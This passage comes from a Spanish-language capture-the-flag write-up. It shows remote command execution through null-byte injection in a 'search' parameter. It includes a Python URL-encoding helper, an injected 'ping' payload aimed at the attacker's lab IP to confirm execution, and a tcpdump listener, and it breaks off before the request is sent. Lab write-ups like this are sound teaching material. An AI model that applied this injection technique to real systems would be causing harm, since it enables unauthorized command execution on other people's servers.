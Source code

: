 <br>
Viendo el código podemos deducir como se produce el ataque:

- 1 El parámetro search es vulnerable al <a href="http://projects.webappsec.org/w/page/13246949/Null%20Byte%20Injection" target="_blank" >null byte</a> injection `%00`, 
permitiéndonos saltarse la sanitización del campo `search`.
- 2 Con `urllib.parse.quote` nos encodeamos el payload en formato URL.
- 3 Lanza la petición con `http.request` y se ejecuta el RCE.

<br>
<h3 style="text-align:center" id="manual">EJECUCION MANUAL</h3>
<hr>
<br>

1 - Nos creamos un pequeño script en python que nos url encode nuestro payload.

```python
❯ cat url_encoding.py
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: url_encoding.py
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ import urllib3
   2   │ import sys
   3   │ import urllib.parse
   4   │ 
   5   │ 
   6   │ Payload = input("Introduzca el payload deseado: ")
   7   │ Payload_url_encoding = urllib.parse.quote(Payload)
   8   │ print(Payload_url_encoding)
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

```
<br>
2- Ejecutamos el script y le pasamos el payload `ping /n 1 10.10.16.5`, este comando nos mandará un ping a nuestra máquina demostrando la existencia del RCE.

```bash
❯ python3 url_encoding.py
Introduzca el payload deseado: ping -n 1 10.10.16.5
ping%20-n%201%2010.10.16.5

```
<br>
3- Nos ponemos por escucha en la interfaz que recibirá el ping:

```bash
❯ sudo tcpdump -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes

```
<br>
4- Lanzamos la petición con el payload inyectado en la URL:
